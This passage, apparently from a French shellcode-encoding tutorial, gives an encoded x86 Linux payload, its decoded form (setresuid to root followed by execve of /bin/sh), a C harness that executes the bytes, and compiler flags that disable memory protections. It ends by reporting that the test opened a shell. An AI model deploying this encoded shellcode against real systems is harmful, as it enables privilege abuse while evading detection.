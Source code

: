 ```c
encode_decode.py  -s
"\xeb\x40\x5e\x56\x89\xf7\x31\xc9\xf7\xe1\xb9\x17\x31\xc0\x31\xdb\x31\xd2\x8a\x07\x3c\xff\x74\x1a\x8a\x57\x01\x28\xc2\x8a\x5f\x02\x28\xc3\x30\xda\x88\x16\x88\x5e\x01\x46\x46\x47\x47\x47\xe2\xdc\xeb\x0a\x8a\x5f\x01\x8a\x57\x02\x30\xd3\x88\x1e\xff\x14\x24\xe8\xbb\xff\xff\xff\x03\xfb\xcc\x04\x1a\xe5\x03\x45\xce\x05\x2e\xb5\x02\x6b\xcf\x01\x78\xf8\x08\xb8\x59\x0a\x51\x39\x0a\x66\x7d\x03\x03\x6b\x03\x50\x65\x06\x0d\x74\x06\x70\xe9\x0a\xe2\x93\x08\xb9\x5b\x03\x6b\xe4\x02\xbd\x0d\x09\x56\x89" -a decode
````

```c
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

## Compilation ##

```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"\xeb\x40\x5e\x56\x89\xf7\x31\xc9\xf7\xe1\xb9\x17\x31\xc0\x31\xdb\x31\xd2\x8a\x07\x3c\xff\x74\x1a\x8a\x57\x01\x28\xc2\x8a\x5f\x02\x28\xc3\x30\xda\x88\x16\x88\x5e\x01\x46\x46\x47\x47\x47\xe2\xdc\xeb\x0a\x8a\x5f\x01\x8a\x57\x02\x30\xd3\x88\x1e\xff\x14\x24\xe8\xbb\xff\xff\xff\x03\xfb\xcc\x04\x1a\xe5\x03\x45\xce\x05\x2e\xb5\x02\x6b\xcf\x01\x78\xf8\x08\xb8\x59\x0a\x51\x39\x0a\x66\x7d\x03\x03\x6b\x03\x50\x65\x06\x0d\x74\x06\x70\xe9\x0a\xe2\x93\x08\xb9\x5b\x03\x6b\xe4\x02\xbd\x0d\x09\x56\x89";

int main()
{

        printf("taille %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

        return 0;

}

gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode
```

Enfin nous testons le tout :

```c
./test_shellcode
$
````

nous obtenons un shell. Notre shellcode a été décodé puis exécuté.

